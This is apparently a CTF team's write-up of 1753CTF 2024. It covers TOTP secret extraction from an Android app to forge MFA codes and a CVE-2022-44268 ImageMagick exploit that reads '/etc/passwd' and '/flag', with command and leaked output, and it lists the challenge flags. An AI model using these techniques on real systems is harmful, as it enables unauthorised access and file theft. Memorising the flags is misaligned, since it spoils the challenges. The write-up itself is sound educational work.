

Hosted by: [1753c](https://1753c.io/) 

Duration:  Fri, 15 March 2024, 21:00 UTC — Sat, 16 March 2024, 21:00 UTC 

CTFtime: [1753CTF 2024](https://ctftime.org/event/2234/)

Team: [Wojownicy z Piwnicy](https://ctftime.org/team/155060)

Result: 10th place


Challenges:
1. [Yesterday's News](#yesterdays-news) 
2. [Kind of Magic](#kind-of-magic)
3. [Text Polyfill](#text-polyfill)
4. [Fixed Mistake](#fixed-mistake)
5. [Questions](#questions)
6. [The Constant](#the-constant)

---

## Yesterday's News
In the challenge we were given a 'creds' file and an android application 'totp.apk'. In the 'creds' file we could find an URL with login & password. After visiting the site we were missing a 'MFA Code' box which was required to login. Installing the app in the emulator did not give us the correct MFA code so we began reverse engineering the app. We found two main functions that were responsible for generating the TOTP token. 
```java
public String generateTOTP() {
	return TOTPGenerator.generateTOTP("IMSEXYANDIKNOWIT", Clock.offset(Clock.systemUTC(), Duration.ofDays(-1)), 6);
}
```
```java
public class TOTPGenerator {
    private static final int DEFAULT_TIME_STEP = 30;

    public static String generateTOTP(String secretKey, Clock clock, int digits) {
        int i = digits;
        Instant instant = clock.instant();
        long clockValue = instant.getEpochSecond();
        long T = clockValue / 30;
        byte[] decodedKey = new Base32().decode(secretKey);
        byte[] time = ByteBuffer.allocate(8).putLong(T).array();
        SecretKeySpec signKey = new SecretKeySpec(decodedKey, "HmacSHA1");
        try {
            Mac mac = Mac.getInstance("HmacSHA1");
            mac.init(signKey);
            byte[] hash = mac.doFinal(time);
            int offset = hash[hash.length - 1] & 15;
            int binary = ((hash[offset + 2] & 255) << 8) | ((hash[offset] & Byte.MAX_VALUE) << 24) | ((hash[offset + 1] & 255) << 16) | (hash[offset + 3] & 255);
            Instant instant2 = instant;
            long j = clockValue;
            long j2 = T;
            try {
                return new Formatter().format("%0" + i + "d", new Object[]{Integer.valueOf(binary % ((int) Math.pow(10.0d, (double) i)))}).toString();
            } catch (InvalidKeyException | NoSuchAlgorithmException e) {
                e = e;
                e.printStackTrace();
                return null;
            }
        } catch (InvalidKeyException | NoSuchAlgorithmException e2) {
            e = e2;
            Instant instant3 = instant;
            long j3 = clockValue;
            long j4 = T;
            e.printStackTrace();
            return null;
        }
    }
}
```

We found the secret key used for the generation - 'IMSEXYANDIKNOWIT'. We can also see that the clock responsible for generating the TOTP was offset by a day. It explains why the tokens did not work straight out from the app - they were a day old. With that knowledge is easy to create our own TOTP generator in python, to generate current tokens. 

```python
import pyotp
import time

secret_key = "IMSEXYANDIKNOWIT"
totp = pyotp.TOTP(secret_key)

current_time = int(time.time())
totp_value = totp.at(current_time)

print("Current TOTP:", totp_value)
```

With credentials provided in the 'creds' file and MFA token recived from our program we can login into the admin web-panel and get the flag.
```shell
Flag: 1753c{welcome_to_the_world_of_yesterday}
```

## Kind of Magic
We were given a link and the source code of a simple website with a functionality of making thumbnails of the uploaded pictures. You just uploaded a picture and it came out cropped and drastically reduced in size. 

After inspecting the docker file and dependencies we noticed that the service was using an outdated version of ImageMagick library. Quick google of the 'imagemagick-7.1.0.49' provides us with the [CVE-2022-44268](https://nvd.nist.gov/vuln/detail/CVE-2022-44268) which confirm ImageMagick 7.1.0-49 is vulnerable to Information Disclosure. When it parses a PNG image (e.g., for resize), the resulting image could have embedded the content of an arbitrary. file (if the magick binary has permissions to read it). We found the [repository](https://github.com/kljunowsky/CVE-2022-44268) containing a python script that can create images embedded with the exploit. For testing we decided to read the '/etc/passwd' file. 

 
```bash
python3 CVE-2022-44268.py --image example.png --file-to-read /etc/passwd --output poisoned.png
```
We then uploaded the file to the website, and downloaded its modified version. Using 'identify -verbose resized.png' gave us a bunch of hex bytes which we then converted to ASCII. 
```bash1
root:x:0:0::/root:/bin/bash
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
mail:x:8:12::/var/spool/mail:/usr/bin/nologin
ftp:x:14:11::/srv/ftp:/usr/bin/nologin
http:x:33:33::/srv/http:/usr/bin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/usr/bin/nologin
dbus:x:81:81:System Message Bus:/:/usr/bin/nologin
systemd-coredump:x:980:980:systemd Core Dumper:/:/usr/bin/nologin
systemd-network:x:979:979:systemd Network Management:/:/usr/bin/nologin
systemd-oom:x:978:978:systemd Userspace OOM Killer:/:/usr/bin/nologin
systemd-journal-remote:x:977:977:systemd Journal Remote:/:/usr/bin/nologin
systemd-resolve:x:976:976:systemd Resolver:/:/usr/bin/nologin
systemd-timesync:x:975:975:systemd Time Synchronization:/:/usr/bin/nologin
tss:x:974:974:tss user for tpm2:/:/usr/bin/nologin
uuidd:x:68:68::/:/usr/bin/nologin
```
With that we confirmed that the target is vulnerable. Fortunately from one of the previous challenges we knew that the flag can be located by the path '/flag'. We hoped it's the same in this challenge and proceeded to prepare the embedded image. After downloading the image and again inspecting it with identify package we decoded the hex bytes into string with the command provided bellow and received the flag. 
```shell
❯ echo '31373533637b74686572655f69735f6d616769635f696e5f74
	↪68655f6169725f6974735f63616c6c65645f4356455f323032325f34343236387d0a' | xxd -r -p
1753c{there_is_magic_in_the_air_its_called_CVE_2022_44268}
```

## Text Polyfill


## Fixed Mistake 
This OSINT challenge required us to find an article that has/had a hidden flag. The name hinted that the mistake has already been fixed so we used the Wayback Machine to inspect every article about this CTF event. Finally one article [So, You Want to Be a Hacker?](https://web.archive.org/web/20240000000000*/https://hackernoon.com/so-you-want-to-be-a-hacker) contained a flag if we used a snapshot from March, 2nd. 
```shell
Flag: 1753c{s0m3_r4nd0m_t3xt}
```


## Questions
We were given a link to a telegram bot that gave us single bits of the flag. The solve was just to power through and ask the bot 271 times for the bits, which we kept in an excel spreadsheet. It wasn't the most interesting challenge XD



```shell
001100010011011100110101001100110110001101111011011001000
↪01100110110011001101001011011100110100101110100011001010
↪01100010111100101011111011101110011000001110010011101000
↪11010000101111101110100011010000110010101011111001100110
↪11001100110011000110000011100100111010001111101 
---------------------------------------------------------
Flag: 1753c{d3finite1y_w0rth_the_3ff0rt}
```

## The Constant 
This challenge was categorized as STEGANO, however to solve it you just had to watch the provided video, and look for hidden, dim text on the screen. Then we had to combine it to get the flag. 
```shell
Flag: 1753c{wehavetogobacktotheisland}
```